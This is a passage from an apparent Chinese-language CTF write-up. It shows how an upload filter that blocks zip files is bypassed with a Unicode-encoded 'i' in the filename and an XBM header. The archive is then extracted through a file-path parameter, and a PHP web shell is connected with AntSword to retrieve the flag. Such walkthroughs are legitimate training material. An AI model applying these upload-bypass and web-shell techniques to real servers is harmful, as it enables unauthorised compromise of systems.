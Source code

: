 上传文件并抓包

由于文件将zip过滤了，我们将i用unicode字符代替再进行url编码后得到%c4%b0

```
filename="a.z%c4%b0p"
```

然后再在zip文件下加上

```
#define width 1
#define height 1
```

![image-20241103201827884](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032018954.png)

上传成功后

我们访问examp.php解压文件

```
/example.php?ctf=poc
file=../image/a.zip
```

![image-20241103202220698](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032022743.png)

解压成功后，我们访问/examp/a.php

![image-20241103202301657](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032023700.png)

成功上传了，我们搁蚁剑连接

```
/etc/fllagggaaaa/ejklwfthreu8rt/fgrtgergyer/ergerhrtytrh/rtehtrhytryhre/gfhtryrtgrewfre34t/t43ft34f/flag11e3kerjh3u
```

再这里找到flag

![image-20241103202406132](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411032024162.png)
